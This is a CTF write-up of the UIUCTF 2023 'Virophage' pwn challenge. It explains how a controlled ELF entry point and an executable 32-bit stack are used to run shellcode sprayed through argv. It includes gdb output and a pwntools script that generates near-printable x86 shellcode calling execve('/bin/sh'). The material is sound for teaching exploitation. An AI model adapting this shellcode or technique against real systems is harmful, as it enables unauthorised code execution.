

# Virophage

Categories: pwn, systems

Description:
> This challenge is inspired by TSJ CTF 2022's ["virus" challenge](https://github.com/XxTSJxX/TSJ-CTF-2022/tree/main/Pwn/Virus).
>
> I thought a virus could be even tinier, but I there's a catch: are viruses alive or dead? What separates living organisms from lifeless objects? Can viruses [infect other viruses](https://en.wikipedia.org/wiki/Virophage)?

Note: This challenge has not been solved by the author. [Have fun](https://xkcd.com/356/)!
>
>`$ socat file:$(tty),raw,echo=0 tcp:virophage.chal.uiuc.tf:1337`
>
>author: YiFei Zhu
>
>[handout](resources/handout.tar.gz) - This local handout does not contain the original kernel and disk image due to size limitations. However, it contains the instructions to build the challenge.
>
> [original handout](https://cdn.discordapp.com/attachments/1008912371881889935/1124449799819755562/handout.tar.zst) - Original handout URL as given during the CTF. Link might be dead.

**Tags:** pwn, 32-bit x86 shellcode inside `argv`

## Takeaways

* Placing a 32-bit x86 shellcode in `argv`. (Almost printable-only characters)
* Include `int3` (`\xcc`) or `int1` (`\xf1`) instructions in your shellcode to debug it when you cannot set breakpoints anywhere else.

## Solution

This has to be one of the most bizarre challenges I have ever played. Here is the source:

```c
#define WRITE_STRING_LITERAL(fd, message) do { \
    _vp_sys_write(fd, message, sizeof(message) - 1); \
} while (0)

static target_ulong virophage_request_phage(void) {
    WRITE_STRING_LITERAL(STDOUT_FILENO, "Please enter a number in hex: ");

    target_ulong result = 0;
    while (true) {
        char c;
        int r;

        r = _vp_sys_read(STDIN_FILENO, &c, 1);
        if (!r)
            break;
        if (r < 0)
            _vp_error(1, _vp_errno, "read(stdin)");

        if (c == '\n') break;
        else if (c >= '0' && c <= '9') result = (result << 4) | (c - '0');
        else if (c >= 'a' && c <= 'f') result = (result << 4) | (c - 'a' + 10);
        else if (c >= 'A' && c <= 'F') result = (result << 4) | (c - 'A' + 10);
        /* else junk, ignore */
    }

    WRITE_STRING_LITERAL(STDOUT_FILENO, "You entered: 0x");
    for (int shift = 28; shift >= 0; shift -= 4) {
        unsigned char c = (result >> shift) & 0xf;

        c += c < 10 ? '0' : 'A' - 10;
        _vp_sys_write(STDOUT_FILENO, &c, 1);
    }
    WRITE_STRING_LITERAL(STDOUT_FILENO, "\n");

    return result;
}
static void virophage_write_virus(const char *path) {
    /* load_elf_phdrs wants at least one segment, else it errors */
    target_ulong phage = virophage_request_phage();

    struct {
        Elf32_Ehdr ehdr;
        Elf32_Phdr phdr;
    } data = {
        .ehdr = {
            .e_ident = {
                ELFMAG0, ELFMAG1, ELFMAG2, ELFMAG3,
                ELFCLASS32, ELFDATA2LSB, EV_CURRENT,
                ELFOSABI_SYSV
            },
            .e_type = ET_EXEC,
            .e_machine = EM_386,
            .e_version = EV_CURRENT,
            .e_entry = phage,
            .e_ehsize = sizeof(Elf32_Ehdr),
            .e_phentsize = sizeof(Elf32_Phdr),
            .e_phnum = 1,
        },
        .phdr = {
            .p_type = PT_NULL,
        },
    };
    int fd, r;

    data.ehdr.e_phoff = (void *)&data.phdr - (void *)&data;

    fd = _vp_sys_open(path, O_WRONLY | O_CREAT | O_EXCL, 0500);
    if (fd < 0)
        _vp_error(1, _vp_errno, "open(virus)");

    r = _vp_sys_write(fd, &data, sizeof(data));
    if (r < 0)
        _vp_error(1, _vp_errno, "write(virus)");
    if (r != sizeof(data))
        _vp_error(1, 0, "write(virus): bad size written");

    _vp_sys_close(fd);
}
static int virophage_main(int argc, char **argv, char **envp) {
    /* Do stuff in a private tmpfs so there's no way for adversary to
       mess with the files we create */
    if (_vp_sys_unshare(CLONE_NEWNS) < 0)
        _vp_error(1, _vp_errno, "unshare(CLONE_NEWNS)");
    if (_vp_sys_mount("none", "/", NULL, MS_REC | MS_PRIVATE, NULL) < 0)
        _vp_error(1, _vp_errno, "mount(/, MS_REC | MS_PRIVATE)");
    if (_vp_sys_mount("tmpfs", "/tmp", "tmpfs", MS_NOSUID | MS_NODEV, NULL))
        _vp_error(1, _vp_errno, "mount(/tmp)");

    virophage_write_virus("/tmp/virus");

    if (_vp_sys_setuid(0) < 0)
        _vp_error(1, _vp_errno, "setuid(0)");
    if (_vp_sys_personality(ADDR_NO_RANDOMIZE) < 0)
        _vp_error(1, _vp_errno, "personality(ADDR_NO_RANDOMIZE)");

    WRITE_STRING_LITERAL(STDOUT_FILENO, "execve...\n");
    _vp_sys_execve("/tmp/virus", argv, envp);
    _vp_error(1, _vp_errno, "execve(virus)");

    return 1;
}
void virophage_start_main(void **stack) {
    void *argv, *envp;
    unsigned int i;
    int argc;

    argc = (uintptr_t)*stack++;
    argv = (void *)stack;
    for (i = 0; i < argc; i++)
        stack++;
    stack++;
    envp = stack;
    _vp_sys_exit(virophage_main(argc, argv, envp));
}
__asm__ (
    ".globl _start\n"
    ".section .text,\"ax\",@progbits\n"
    ".type _start, @function\n"
    "_start:\n"
    "    mov %rsp, %rdi\n"
    "    call virophage_start_main\n"
    "    hlt\n"
);
```

Okay, let's run it and see what happens:

```bash
uiuctf-2023:/home/user# ./virophage
Please enter a number in hex: 41424344
You entered: 0x41424344
execve...
Segmentation fault
uiuctf-2023:/home/user#
```

By reading the source code here is what happens:

* In `virophage_main`, the program creates a new private tmpfs
* It opens the `/tmp/virus` file and writes there a raw ELF 32-bit header followed by a `PT_NULL` program header. Nothing more.
* It requests from the user a 32-bit value (address) in hex
* It places this 32-bit value in the `->e_entry` of the ELF header
* It disables ASLR.
* It performs `execve(/tmp/virus, argv, envp)`, which is a 32-bit ELF binary (with no code, lmao. Just those 2 headers). After replacing the current image with the one supplied to `execve`, the program will start executing from its `->e_entry` field, which we control.

While examining the binary in GDB, some interesting things came up:

```gdb
uiuctf-2023:/home/user# gdb ./virophage
GNU gdb (GDB) 13.1
(gdb) b virophage_main
Breakpoint 1 at 0x1177: file /home/user/virophage.c, line 98.
(gdb) r
Starting program: /home/user/virophage

Breakpoint 1, virophage_main (argc=<optimized out>, envp=<optimized out>,
    argv=<optimized out>) at /home/user/virophage.c:267
267             if (_vp_sys_unshare(CLONE_NEWNS) < 0)
(gdb) info proc mappings
process 62
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
      0x7fe576653000     0x7fe576654000     0x1000        0x0  r--p   /home/user/virophage
      0x7fe576654000     0x7fe576655000     0x1000     0x1000  r-xp   /home/user/virophage
      0x7fe576655000     0x7fe576656000     0x1000     0x2000  r--p   /home/user/virophage
      0x7fe576656000     0x7fe576657000     0x1000     0x2000  rw-p   /home/user/virophage
      0x7fe576657000     0x7fe576658000     0x1000        0x0  rw-p
      0x7fff386e1000     0x7fff38702000    0x21000        0x0  rw-p   [stack]
      0x7fff3871d000     0x7fff38721000     0x4000        0x0  r--p   [vvar]
      0x7fff38721000     0x7fff38723000     0x2000        0x0  r-xp   [vdso]
(gdb) c
Continuing.
Please enter a number in hex: 41414141
You entered: 0x41414141
execve...
process 62 is executing new program: /tmp/virus
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info proc mappings
process 62
Mapped address spaces:

        Start Addr   End Addr       Size     Offset  Perms   objfile
        0xf7ff8000 0xf7ffc000     0x4000        0x0  r--p   [vvar]
        0xf7ffc000 0xf7ffe000     0x2000        0x0  r-xp   [vdso]
        0xfffdd000 0xffffe000    0x21000        0x0  rwxp   [stack]
(gdb)
```

* As expected, after entering `41414141`, the `pc` is set to `0x41414141` and we get a SIGSEGV. So, as expected, we control where we initially jump to.
* As expected by the handcrafed headers, there is only one program header of type `PT_NULL`, which means that nothing gets mmpaed from the file. So we have very few things mmaped as we can see above. These are the default things that get mmaped by the kernel.
* **When we are in the 32-bit binary, the stack is `rwx`**. However, when we were previously in the 64-bit binary, the stack was `rw-`. This is interesting as our `argv` and `envp` are passed down to the 32-bit binary (`execve("/tmp/virus", argv, envp)`) and these values reside in the stack.

But why did the stack become suddenly `rwx`? Well the kernel decides what permissions the stack will have at load time ([arch/x86/include/asm/elf.h#L288](https://elixir.bootlin.com/linux/v6.3.8/source/arch/x86/include/asm/elf.h#L288)). When the binary is 32-bit and lacks the `PT_GNU_STACK` segment, then the stack is mapped as `rwx` by default.

So, let's exploit these two facts: (1) the stack is `rwx` and (2) we control `argv`, which is placed in the stack. We will spray the stack with our shellcode and then jump to it. Our shellcode will simply pop a shell. Because our shellcode will be placed in `argv`, it has to be almost only printable characters.

[Phrack issue 57](http://phrack.org/issues/57/15.html) has a lot of information on how to create an alphanumeric shellcode for x86. So, based on that, we write our shellcode generator:

```python
# File: shellcode-generator.py
from pwn import *

context.binary = elfexe = ELF('./virophage') # 64-bit

shellcode  = b''
shellcode += b'H'*0x100 # dec eax. nop sled
# shellcode += b'\xcc' # for debugging
shellcode += b'H'
shellcode += asm('''
    xor     edx, edx

    xor eax, eax
    mov al, 0x68
    push ax
    mov ax, 0x732f
    push ax
    mov ax, 0x6e69
    push ax
    mov ax, 0x622f
    push ax

    xor eax, eax
    push eax
    sub esp, 0x40
    lea ebx, [esp+0x44]
    add esp, 0x40
    push ebx

    /* ebx is good */
    mov ecx, esp
    xor     edx, edx    
    mov     al, 0x4b
    sub     al, 0x40
    /* int3 */
    int 0x80
''', arch='i386', bits=32)
for b in shellcode:
    assert(b != 0)

print("export RAW_SHELLCODE=$(echo -n -e '", end='')
for b in shellcode:
    print("\\x{:2x}".format(b),end='')
print("')")
```

As input address for the entry point of the ELF header, we will do some guess work until we land on our nop-sled and finally choose `0xffffde80`. So, let's run our exploit and get the flag!



`uiuctf{did-you-see-why-its-in-usr-lib-now-0cd5fb56}`
